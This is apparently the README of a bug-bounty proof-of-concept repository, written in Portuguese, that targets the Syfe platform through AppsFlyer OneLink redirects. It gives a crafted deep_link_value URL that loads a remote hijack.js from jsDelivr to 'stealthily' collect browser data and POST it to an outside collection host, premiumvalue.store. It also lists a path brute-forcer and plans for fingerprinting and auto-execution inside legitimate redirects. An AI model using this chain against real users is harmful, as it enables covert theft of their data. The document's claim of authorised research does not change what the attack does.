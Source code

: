 # syfe-poc-bypass

🤖 Aviso legal
O uso indevido deste script fora de ambientes autorizados pode violar leis e regulamentos. O autor não se responsabiliza por usos fora dos termos dos programas de bug bounty.

> Proof-of-Concept para exploração remota na plataforma [Syfe](https://www.syfe.com), com foco em redirecionamento controlado via OneLink (AppsFlyer), coleta furtiva de dados e possível bypass de CSP.

---

## 🧪 Objetivo

Demonstrar como o endpoint `syfe.onelink.me` pode ser utilizado como vetor de redirecionamento e execução remota de scripts, incluindo exfiltração de dados sensíveis do navegador em contexto de usuário.

---

## 📌 Ponto de Entrada

Utilizando o `deep_link_value` do OneLink:

https://syfe.onelink.me/test?pid=facebook&deep_link_value=https://cdn.jsdelivr.net/gh/SEU_USUARIO/syfe-poc-bypass@main/hijack.js

yaml
Copiar
Editar

Ao ser carregado pelo OneLink, o navegador interpreta e executa o script remoto que coleta dados do usuário e os envia para o servidor controlado pelo pesquisador.

---

## 📁 Arquivos

- `hijack.js`: script principal de coleta furtiva.
- `exfiltration/stealth-collector.js`: versão estendida (a ser implementada) com coleta de IndexedDB, rede e fingerprint.
- `onelink/fuzz_onelink.py`: script para brute-force de caminhos válidos no domínio `syfe.onelink.me`.
- `proof/`: evidências da execução remota (como GIFs ou HAR).

---

## 🔒 Considerações de Segurança

Este repositório é de uso **exclusivamente educacional e ético**. Toda exploração foi realizada no contexto de programas de Bug Bounty com permissão explícita (neste caso, Syfe via HackerOne).

---

## 📤 Endereço de coleta

Todos os dados coletados são enviados via `fetch` para:

https://premiumvalue.store/poc

yaml
Copiar
Editar

Esse endpoint está sob controle do pesquisador e processa as requisições via `POST` com `Content-Type: application/json`.

---

## 💡 Próximos passos

- [ ] Incluir coleta de `IndexedDB`
- [ ] Implementar fingerprint completo (Canvas, WebGL, Plugins, Fonts)
- [ ] Adicionar autoexecução em redirecionamentos legítimos
- [ ] Explorar subrotas autenticadas após redirecionamento
